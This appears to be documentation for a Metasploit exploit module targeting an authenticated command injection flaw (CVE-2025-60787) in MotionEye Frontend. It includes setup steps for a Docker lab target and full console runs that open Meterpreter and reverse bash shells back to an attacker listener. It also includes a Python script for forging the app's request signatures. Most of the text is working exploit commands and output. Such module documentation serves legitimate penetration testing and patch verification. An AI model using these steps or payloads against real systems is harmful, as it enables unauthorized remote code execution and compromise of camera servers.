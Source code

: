 ## Vulnerable Application

This module exploits a template injection vulnerability in the [MotionEye Frontend](https://github.com/motioneye-project/motioneye).

MotionEye Frontend versions 0.43.1b4 and prior are vulnerable to OS Command Injection in configuration parameters such as `image_file_name`.
Unsanitized user input is written to MotionEye Frontend configuration files, allowing remote authenticated attackers with admin access to achieve code execution.

Exploit workflow:
1. Adds a new camera in MotionEye Frontend.
2. Injects the payload into the image_file_name field (used for naming camera screenshots).
3. Captures a screenshot, triggering the payload.

Successful exploitation may result in the remote code execution as the user running
of the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Testing

1. Use Docker to set up the MotionEye app

`docker run -p 9999:8765 ghcr.io/motioneye-project/motioneye@sha256:718171663d28f04f2fb97244f8ef03a814367b06078fc00685acc47f61663890`

2. Open http://127.0.0.1:9999/ and make sure the app is available

## Scenario

### cmd/linux/http/x64/meterpreter/reverse_tcp

```
msf6 > use exploit/multi/http/motioneye_auth_rce_cve_2025_60787
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RPORT 9999
RPORT => 9999
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set FETCH_SRVHOST 172.17.0.1
FETCH_SRVHOST => 172.17.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set PASSWORD 12345
PASSWORD => 12345
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.14, which is vulnerable
[*] Adding camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit installation completed
[*] Executing exploit...
[+] Execution exploit request sent successfully
[*] Removing camera
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 172.17.0.2:38124) at 2025-10-04 21:08:57 -0400
[+] Camera removed successfully

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 13.1 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### cmd/unix/reverse_bash

```
msf6 > use exploit/multi/http/motioneye_auth_rce_cve_2025_60787
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RPORT 9999
RPORT => 9999
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.14, which is vulnerable
[*] Adding camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit installation completed
[*] Executing exploit...
[+] Execution exploit request sent successfully
[*] Removing camera
[+] Camera removed successfully
[*] Command shell session 1 opened (192.168.19.130:4444 -> 172.17.0.2:60160) at 2025-10-06 04:46:34 -0400

cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 13 (trixie)"
NAME="Debian GNU/Linux"
VERSION_ID="13"
VERSION="13 (trixie)"
VERSION_CODENAME=trixie
DEBIAN_VERSION_FULL=13.1
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

## Script for signing requests

The application verifies request signatures, so I wrote a small script to sign requests manually.

You won't need it if you use the exploit, but it can be useful for debugging.

```
import hashlib
import re
import argparse
import sys
from urllib.parse import urlsplit, parse_qs, unquote, quote
from typing import Dict, List, Tuple

_SIGNATURE_REGEX = re.compile(r'[^A-Za-z0-9/?_.=&{}\[\]":, -]')

def compute_signature(method: str, path: str, body: str = '', key: str = '') -> str:
    if not method or not path:
        raise ValueError("Method and path must be provided.")

    url_parts = urlsplit(path)
    base_path = url_parts.path
    
    if not base_path.startswith('/'):
        base_path = '/' + base_path
    
    raw_query_params: Dict[str, List[str]] = parse_qs(
        url_parts.query, keep_blank_values=True, strict_parsing=False
    )
    
    canonical_query: List[Tuple[str, str]] = []
    for k, v_list in raw_query_params.items():
        if k == '_signature':
            continue
            
        value = unquote(v_list[0]) if v_list else ''
        canonical_query.append((k, value))
    
    canonical_query.sort(key=lambda item: item[0])
    
    query_string = '&'.join(f"{k}={quote(v)}" for k, v in canonical_query)

    if query_string:
        canonical_path = f"{base_path}?{query_string}"
    else:
        canonical_path = base_path
        
    canonical_path = re.sub(_SIGNATURE_REGEX, '-', canonical_path)

    body_for_signing = re.sub(_SIGNATURE_REGEX, '-', body)
    
    if not key:
        password_hash = "da39a3ee5e6b4b0d3255bfef95601890afd80709"
    else:
        password_hash = hashlib.sha1(key.encode('utf-8')).hexdigest().lower()

    data = f"{method.upper()}:{canonical_path}:{body_for_signing}:{password_hash}"
    
    return hashlib.sha1(data.encode('utf-8')).hexdigest().lower()

def main():
    parser = argparse.ArgumentParser(description="Computes a SHA1 signature for an HTTP request.")

    parser.add_argument('--method', type=str, required=True,
                        choices=['GET', 'POST', 'PUT', 'DELETE'],
                        help="The HTTP method (e.g., GET).")
    parser.add_argument('--path', type=str, required=True,
                        help="The canonical path (e.g., /api/resource?param=value).")
    parser.add_argument('--key', type=str, default='',
                        help="The secret key. Defaults to an empty string.")
    parser.add_argument('--body', type=str, default='',
                        help="The request body as a string. Defaults to an empty string.")

    try:
        args = parser.parse_args()
        
        signature = compute_signature(
            method=args.method,
            path=args.path,
            body=args.body,
            key=args.key
        )

        print(f"Computed Signature: {signature}")

    except ValueError as e:
        sys.stderr.write(f"Error: {e}\n")
        sys.exit(1)
    except Exception as e:
        sys.stderr.write(f"An unexpected error occurred: {e}\n")
        sys.exit(1)


if __name__ == '__main__':
    main()
```

Example of usage:
```
python3 ./hash.py --method "GET" --path "/config/1/get/?force=true&_=1759747431350&_username=admin" --body '' --key ""
```